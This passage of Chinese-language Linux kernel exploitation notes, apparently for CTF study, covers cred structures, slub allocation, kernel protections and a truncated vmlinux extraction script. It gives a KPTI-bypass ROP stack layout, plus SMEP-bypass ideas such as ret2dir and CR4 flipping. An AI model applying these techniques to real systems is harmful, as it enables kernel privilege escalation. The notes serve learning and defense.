在开启`KPTI`内核，提权返回到用户态（`iretq/sysret`）之前如果不设置`CR3`寄存器的值，就会导致进程找不到当前程序的正确页表，引发段错误，程序退出。

知道`KPTI`原理，在`kernel`提权返回用户态的时候绕过`kpti`的话就很简单了，利用内核映像中现有的`gadget`。

```c
mov     rdi, cr3
or      rdi, 1000h
mov     cr3, rdi
```

来设置`CR3`寄存器，并按照`iretq/sysret` 的需求构造内容，再返回就`OK`了。

有一种比较懒惰的方法就是利用`swapgs_restore_regs_and_return_to_usermode + 27` 这个函数返回,在`ROP时`，将程序流程控制到 `mov rdi, rsp` 指令(这就是为什么要`+27`)，栈布局如下就行：
```c
rsp  ---->  mov_rdi_rsp
            0
            0
            rip
            cs
            rflags
            rsp
            ss
```

### 16. 进程描述符

在内核中使用结构体 `task_struct` 表示一个进程，该结构体定义于内核源码`include/linux/sched.h`中。

一个进程描述符的结构应当如下图所示：



注意到`task_struct`的源码中有如下代码：

```C
/* Process credentials: */

/* Tracer's credentials at attach: */
const **struct** **cred** __**rcu**        ***ptracer_cred**;

/* Objective and real subjective task credentials (COW): */
const **struct** **cred** __**rcu**        ***real_cred**;

/* Effective (overridable) subjective task credentials (COW): */
const **struct** **cred** __**rcu**        ***cred**;
```

**Process credentials** 是 `kernel` 用以判断一个进程权限的凭证，在 `kernel` 中使用 `cred` 结构体进行标识，对于一个进程而言应当有三个 `cred`：

- **ptracer_cred：**使用`ptrace`系统调用跟踪该进程的上级进程的`cred`（`gdb`调试便是使用了这个系统调用，常见的反调试机制的原理便是提前占用了这个位置）
- **real_cred：**即**客体凭证**（**objective cred**），通常是一个进程最初启动时所具有的权限
- **cred：**即**主体凭证**（**subjective cred**），该进程的有效`cred`，`kernel`以此作为进程权限的凭证

一般情况下，主体凭证与客体凭证的值是相同的

> 例：当进程 A 向进程 B 发送消息时，A为主体，B为客体

#### 进程权限凭证：cred结构体

对于一个进程，在内核当中使用一个结构体`cred`管理其权限，该结构体定义于内核源码`include/linux/cred.h`中，如下：
```c
**struct** **cred** {
    atomic_t    usage;
\#**ifdef** CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
\#**define** CRED_MAGIC    0x43736564
\#**define** CRED_MAGIC_DEAD    0x44656144
\#**endif**
    kuid_t        uid;        /* real UID of the task */
    kgid_t        gid;        /* real GID of the task */
    kuid_t        suid;        /* saved UID of the task */
    kgid_t        sgid;        /* saved GID of the task */
    kuid_t        euid;        /* effective UID of the task */
    kgid_t        egid;        /* effective GID of the task */
    kuid_t        fsuid;        /* UID for VFS ops */
    kgid_t        fsgid;        /* GID for VFS ops */
    unsigned    securebits;    /* SUID-less security management */
    kernel_cap_t    cap_inheritable; /* caps our children can inherit */
    kernel_cap_t    cap_permitted;    /* caps we're permitted */
    kernel_cap_t    cap_effective;    /* caps we can actually use */
    kernel_cap_t    cap_bset;    /* capability bounding set */
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
\#**ifdef** CONFIG_KEYS
    unsigned char    jit_keyring;    /* default keyring to attach requested
                     \* keys to */
    **struct** **key**    ***session_keyring**; /* keyring inherited over fork */
    **struct** **key**    ***process_keyring**; /* keyring private to this process */
    **struct** **key**    ***thread_keyring**; /* keyring private to this thread */
    **struct** **key**    ***request_key_auth**; /* assumed request_key authority */
\#**endif**
\#**ifdef** CONFIG_SECURITY
    void        *security;    /* subjective LSM security */
\#**endif**
    **struct** **user_struct** ***user**;    /* real user ID subscription */
    **struct** **user_namespace** ***user_ns**; /* user_ns the caps and keyrings are relative to. */
    **struct** **group_info** ***group_info**;    /* supplementary groups for euid/fsgid */
    /* RCU deletion */
    **union** {
        int non_rcu;            /* Can we skip RCU deletion? */
        **struct** **rcu_head**    **rcu**;        /* RCU deletion hook */
    };
} __randomize_layout;
```

#### 用户ID & 组ID

一个cred结构体中记载了**一个进程四种不同的用户ID**：

- **真实用户ID**（real UID）：标识一个进程**启动时的用户ID**
- **保存用户ID**（saved UID）：标识一个进程**最初的有效用户ID**
- **有效用户ID**（effective UID）：标识一个进程**正在运行时所属的用户ID**，一个进程在运行途中是可以改变自己所属用户的，因而权限机制也是通过有效用户ID进行认证的，内核通过 euid 来进行特权判断；为了防止用户一直使用高权限，当任务完成之后，euid 会与 suid 进行交换，恢复进程的有效权限
- **文件系统用户ID**（UID for VFS ops）：标识一个进程**创建文件时进行标识的用户ID**

在通常情况下这几个ID应当都是相同的

用户组ID同样分为四个：`真实组ID`、`保存组ID`、`有效组ID`、`文件系统组ID`，与用户ID是类似的，这里便不再赘叙。

### 17. 内核内存管理机制

`Linux kernel` 将内存分为 页→区→节点 三级结构，主要有两个内存管理器—— `buddy system` 与 `slab allocator`。

####  页→区→节点三级结构
这是一张十分经典的 _Overview_，自顶向下是

- 节点（node，对应结构体 pgdata_list）
- 区（zone，对应结构体 zone，图上展示了三种类型的 zone）
- 页（page，对应结构体 page）
   

> 其实爷也有一张很OK的全局图。



所以说这个`zone`是一个很宽泛的范围，在一些内存紧凑的嵌入式设备中可能就一个`zone`。

#### 页（page）

Linux kernel 中使用 `page` 结构体来表示一个物理页框，**每个物理页框都有着一个对应的 page 结构体**。



#### 区（zone）

在 `Linux` 下将一个节点内不同用途的内存区域划分为不同的 `区（zone）`，对应结构体 `struct zone`。


#### 区（zone）

在 `Linux` 下将一个节点内不同用途的内存区域划分为不同的 `区（zone）`，对应结构体 `struct zone`。



#### 节点（node）

`zone` 再向上一层便是节点——`Linux` 将_内存控制器（`memory controller`）_作为节点划分的依据，对于 `UMA` 架构而言只有一个节点，而对于 `NUMA` 架构而言通常有多个节点，对于同一个内存控制器下的 `CPU` 而言其对应的节点称之为_本地内存_，不同处理器之间通过总线进行进一步的连接。如下图所示，一个 `MC` 对应一个节点：



#### buddy system

`buddy system` 是 `Linux kernel` 中的一个较为底层的内存管理系统，**以内存页为粒度管理者所有的物理内存**，其存在于 **区** 这一级别，对当前区所对应拥有的所有物理页框进行管理

在每个 `zone` 结构体中都有一个 `free_area` 结构体数组，用以存储 `buddy system` **按照 order 管理的页面**。

```c
struct zone {
    //...
    struct free_area	free_area[MAX_ORDER];
    //...
```
其中的 `MAX_ORDER` 为一个常量，值为 11

在 `buddy system` 中按照空闲页面的连续大小进行分阶管理，这里的 `order` 的实际含义为连续的空闲页面的大小，不过单位不是页面数，而是阶，即对于每个下标而言，其中所存储的页面大小为：

$$
2^{\text{order}}
$$
在 `free_area` 中存放的页面通过自身的相应字段连接成双向链表结构，由此我们得到这样一张_Overview_：


- 分配：
  - 首先会将请求的内存大小向 2 的幂次方张内存页大小对齐，之后从对应的下标取出连续内存页
  - 若对应下标链表为空，则会从下一个 `order` 中取出内存页，一分为二，装载到当前下标对应链表中，之后再返还给上层调用，若下一个 `order` 也为空则会继续向更高的 `order` 进行该请求过程
- 释放：
  - 将对应的连续内存页释放到对应的链表上
  - 检索是否有可以合并的内存页，若有，则进行合成，放入更高 `order` 的链表中

但是我们很容易产生不容易合并的内存碎片，因此 `Linux kernel` 还会进行 *内存迁移* 以减少内存碎片，原理如下图，主要由一个持续运行的内核线程完成。



#### slab allocator

`slab allocator` 则是更为细粒度的内存管理器，其通过向 `buddy system` 请求单张或多张连续内存页后再分割成同等大小的**对象**（`object`）返还给上层调用者来实现更为细粒度的内存管理。

`slab allocator` 一共有三种版本：

- `slab`（最初的版本，机制比较复杂，效率不高）
- `slob`（用于嵌入式等场景的极为简化版本）
- `slub`（优化后的版本，现在的通用版本）

`slub` 版本的 `allocator` 为现在绝大多数 `Linux kernel` 所装配的版本，因此本篇文章主要叙述的也是 `slub allocator`，其基本结构如下图所示：



- 我们将 `slub allocator` 每次向 `buddy system` 请求得来的单张/多张内存页称之为一个 `slub`，其被分割为多个同等大小对象（`object`），每个 `object` 作为一个被分配实体，在 `slub` 的第一张内存页对应的 `page` 结构体上的 `freelist` 成员指向该张内存页上的第一个空闲对象，一个 `slub` 上的所有空闲对象组成一个以 `NULL` 结尾的单向链表

  > 一个 object 可以理解为用户态 glibc 中的 chunk，不过 object 并不像 chunk 那样需要有一个 header，因为 page 结构体与物理内存间存在线性对应关系，我们可以直接通过 object 地址找到其对应的 page 结构体

- `kmem_cache` 为一个基本的 `allocator` 组件，其用于分配某个特定大小（某种特定用途）的对象，所有的 `kmem_cache` 构成一个双向链表，并存在两个对应的结构体数组 `kmalloc_caches` 与 `kmalloc_dma_caches`

- 一个 `kmem_cache` 主要由两个模块组成：

  - `kmem_cache_cpu`：这是一个**percpu 变量**（即每个核心上都独立保留有一个副本，原理是以 `gs` 寄存器作为 `percpu` 段的基址进行寻址），用以表示当前核心正在使用的 `slub`，因此当前 `CPU` 在从 `kmem_cache_cpu` 上取 `object` 时**不需要加锁**，从而极大地提高了性能

  -  `kmem_cache_node`：可以理解为当前的 `slub` 集散中心，其中存放着两个 `slub` 链表：
    - `partial`：该 `slub `上存在着一定数量的空闲 `object`，但并非全部空闲
    - `full`：该 `slub` 上的所有 `object` 都被分配出去了

#### 分配/释放过程

那么现在我们可以来说明 `slub allocator` 的分配/释放行为了

- 分配：
  - 首先从 `kmem_cache_cpu` 上取对象，若有则直接返回
  - 若 `kmem_cache_cpu` 上的 `slub` 已经无空闲对象了，对应 `slub` 会被加入到 `kmem_cache_node` 的 **full** 链表，并尝试从 **partial** 链表上取一个 slub 挂载到 `kmem_cache_cpu` 上，然后再取出空闲对象返回
  - 若 `kmem_cache_node` 的 `partial` 链表也空了，那就**向 `buddy system` 请求分配新的内存页**，划分为多个 `object` 之后再给到 `kmem_cache_cpu`，取空闲对象返回上层调用
- 释放：
  - 若被释放 `object` 属于 `kmem_cache_cpu` 的 `slub`，直接使用头插法插入当前 `CPU slub` 的 `freelist`
  - 若被释放 `object` 属于 `kmem_cache_node` 的 `partial` 链表上的 `slub`，直接使用头插法插入对应 `slub` 的 `freelist`
  - 若被释放 `object` 属于 `kmem_cache_node` 的 `full` 链表上的 `slub`，则其会成为对应 `slub` 的 `freelist` 头节点，**且该 `slub` 会从 `full` 链表迁移到 `partial` 链表**

以上便是 `slub allocator` 的基本原理。

#### slab alias（slub 合并 & 隔离）

`slab alias` 机制是一种对同等/相近大小 `object` 的 `kmem_cache` 进行**复用**的一种机制：

- 当一个 `kmem_cache` 在创建时，若已经存在能分配相等/近似大小的 `object` 的 `kmem_cache` ，则**不会创建新的 `kmem_cache`，而是为原有的 `kmem_cache` 起一个 `alias`，作为“新的” `kmem_cache` 返回**

举个🌰，`cred_jar` 是专门用以分配 `cred` 结构体的 `kmem_cache`，在 `Linux 4.4` 之前的版本中，其为 `kmalloc-192` 的 `alias`，即 `cred` 结构体与其他的 `192` 大小的 `object `都会从同一个 `kmem_cache`——`kmalloc-192` 中分配

对于初始化时设置了 `SLAB_ACCOUNT` 这一 `flag` 的 `kmem_cache` 而言，则会新建一个新的 `kmem_cache` 而非为原有的建立 `alias`，🌰如在新版的内核当中 `cred_jar` 与 `kmalloc-192` 便是两个独立的 `kmem_cache`，**彼此之间互不干扰**。


#### 通用 kmalloc flag

```
GFP_KERNEL` 与 `GFP_KERNEL_ACCOUNT` 是内核中最为常见与通用的分配 flag，常规情况下他们的分配都来自同一个 `kmem_cache` ——即通用的 `kmalloc-xx
```

这两种 `flag` 的区别主要在于 `GFP_KERNEL_ACCOUNT` 比 `GFP_KERNEL` 多了一个属性——**表示该对象与来自用户空间的数据相关联**，因此我们可以看到诸如 `msg_msg` 、`pipe_buffer`、`sk_buff的数据包` 的分配使用的都是 `GFP_KERNEL_ACCOUNT` ，而 `ldt_struct` 、`packet_socket` 等与用户空间数据没有直接关联的结构体则使用 `GFP_KERNEL`

在5.9 版本之前`GFP_KERNEL` 与 `GFP_KERNEL_ACCOUNT` 存在隔离机制，在 [这个 commit](https://github.com/torvalds/linux/commit/10befea91b61c4e2c2d1df06a2e978d182fcf792) 中取消了隔离机制，自内核版本 5.14 起，在 [这个 commit](https://github.com/torvalds/linux/commit/494c1dfe855ec1f70f89552fce5eadf4a1717552) 当中又重新引入：

- 对于开启了 `CONFIG_MEMCG_KMEM` 编译选项的 kernel 而言（通常都是默认开启），其会为使用 `GFP_KERNEL_ACCOUNT` 进行分配的通用对象**创建一组独立的 `kmem_cache` ——名为 `kmalloc-cg-\*`** ，从而导致使用这两种 flag 的 object 之间的隔离：

  

### 18.内核保护机制
#### KASLR

KASLR即**内核空间地址随机化**（kernel address space layout randomize），与用户态程序的`ASLR`相类似——在内核镜像映射到实际的地址空间时加上一个偏移值，但是内核内部的相对偏移其实还是不变的

在未开启`KASLR`保护机制时，内核代码段的基址为 `0xffffffff81000000` ，`direct mapping area` 的基址为 `0xffff888000000000`

#### FGKASLR
```c
// 功盖三分国,名成八阵图。江流石不转,遗恨失吞吴。
```
`KASLR` 虽然在一定程度上能够缓解攻击，但是若是攻击者通过一些信息泄露漏洞获取到内核中的某个地址，仍能够直接得知内核加载地址偏移从而得知整个内核地址布局，因此有研究者基于 `KASLR` 实现了 `FGKASLR`，以函数粒度重新排布内核代码

#### STACK PROTECTOR
类似于用户态程序的 `canary`，通常又被称作是 `stack cookie`，用以检测是否发生内核堆栈溢出，若是发生内核堆栈溢出则会产生 `kernel panic`

内核中的 `canary` 的值通常取自 `gs` 段寄存器某个固定偏移处的值

#### SMAP/SMEP
`SMAP`即管理模式访问保护（`Supervisor Mode Access Prevention`），`SMEP`即管理模式执行保护（`Supervisor Mode Execution Prevention`），这两种保护通常是同时开启的，用以阻止内核空间直接访问/执行用户空间的数据，完全地将内核空间与用户空间相分隔开，用以防范`ret2usr`（`return-to-user`，将内核空间的指令指针重定向至用户空间上构造好的提权代码）攻击

SMEP保护的绕过有以下两种方式：

- 利用内核线性映射区对物理地址空间的完整映射，找到用户空间对应页框的内核空间地址，利用该内核地址完成对用户空间的访问（即一个内核空间地址与一个用户空间地址映射到了同一个页框上），这种攻击手法称为 `ret2dir` 
```c
// 出师未捷身先死，长使英雄泪满襟。
```
- `Intel`下系统根据`CR4`控制寄存器的第`20`位标识是否开启`SMEP`保护（`1`为开启，`0`为关闭），若是能够通过`kernel ROP`改变`CR4`寄存器的值便能够关闭`SMEP`保护，完成`SMEP-bypass`，接下来就能够重新进行 `ret2usr`，但对于开启了 `KPTI` 的内核而言，内核页表的用户地址空间无执行权限，这使得 `ret2usr` 彻底成为过去式



#### KPTI
`KPTI`即内核页表隔离（`Kernel page-table isolation`），每个进程内核空间与用户空间分别使用两组不同的页表集，这对于内核的内存管理产生了根本性的变化

需要进行说明的是，在这两张页表上都有着对用户内存空间的完整映射，但在用户页表中只映射了少量的内核代码（例如系统调用入口点、中断处理等），而只有在内核页表中才有着对内核内存空间的完整映射，但两张页表都有着对用户内存空间的完整映射，如下图所示，左侧是未开启 `KPTI` 后的页表布局，右侧是开启了 `KPTI` 后的页表布局。



`KPTI` 的发明主要是用来修复一个史诗级别的 `CPU` 硬件漏洞：`Meltdown`。简单理解就是利用 `CPU` 流水线设计中（乱序执行与预测执行）的漏洞来获取到用户态无法访问的内核空间的数据，属于侧信道攻击的一种

> 简单理解：你的第一条指令是合法内存访问，第二条指令是越权内存访问，`CPU`会在执行第一条正常指令的过程中也会执行第二条非法指令，之后再做权限判定，若是非法访问则消除该影响，这样的流水线设计虽然有着较高的性能，但是越权访问仍会留下痕迹，这给了攻击者非法获取内核空间数据的可能

若是整个流水线设计直接扔掉那自然是捡了芝麻丢了西瓜，因此 `KPTI` 被快速应用到主流操作系统上（这个设计在漏洞出来之前就有，但未得到广泛应用），尽管仍旧造成了一定的性能损耗，但却有效地从软件层面修复了 `Meltdown` 漏洞

**KPTI 同时还令内核页表中属于用户地址空间的部分不再拥有执行权限，这使得 ret2usr 彻底成为过去式**

### 19.用户态与内核态内存空间布局

在现代操作系统中，计算机的虚拟内存地址空间通常被分为两块——供用户进程使用的用户空间（`user space`）与供操作系统内核使用的内核空间（`kernel space`）

32位下的虚拟内存空间布局如下：



64位下的虚拟内存空间布局如下：



抛开华丽的辞藻，这两个词最本质的含义是：

- 用户态：CPU 运行在 ring3 + 用户进程运行环境上下文
- 内核态：CPU 运行在 ring0 + 内核代码运行环境上下文

### 20.解压bzImage
有的时候我们只有压缩后的内核镜像bzImage （例如在一些 CTF 题目中），此时我们可以使用如下脚本进行解压。
```shell
#!/bin/sh
# SPDX-License-Identifier: GPL-2.0-only
# ----------------------------------------------------------------------
# extract-vmlinux - Extract uncompressed vmlinux from a kernel image
#
# Inspired from extract-ikconfig
# (c) 2009,2010 Dick Streefland <dick@streefland.net>
#
# (c) 2011      Corentin Chary <corentin.chary@gmail.com>
#
# ----------------------------------------------------------------------

check_vmlinux()
{
    # Use readelf to check if it's a valid ELF
    # TODO: find a better to way to check that it's really vmlinux
    #       and not just an elf
    readelf -h $1 > /dev/null 2>&1 || return 1

    cat $1
    exit 0
}

try_decompress()
{
    # The obscure use of the "tr" filter is to work around older versions of
    # "grep" that report the byte offset of the line instead of the pattern.

    # Try to find the header ($1) and decompress from here
    for    pos in `tr "$1\n$2" "\n$2=" < "$img" | grep -abo "^$2"`
    do
        pos=${pos%%:*}
        tail -c+$pos "$img" | $3 > $tmp 2> /dev/null
        check_vmlinux $tmp
    done
}

# Check invocation:
me=${0##*/}
img=$1
if    [ $# -ne 1 -o ! -s "$img" ]
then
    echo "Usage: $me <kernel-image>" >&2
    exit 2
fi

# Prepare temp files:
tmp=$(mktemp /tmp/vmlinux-XXX)
trap "rm -f $tmp" 0

# That didn't work, so retry after decompression.
try_decompress '\037\213\010' xy    gunzip
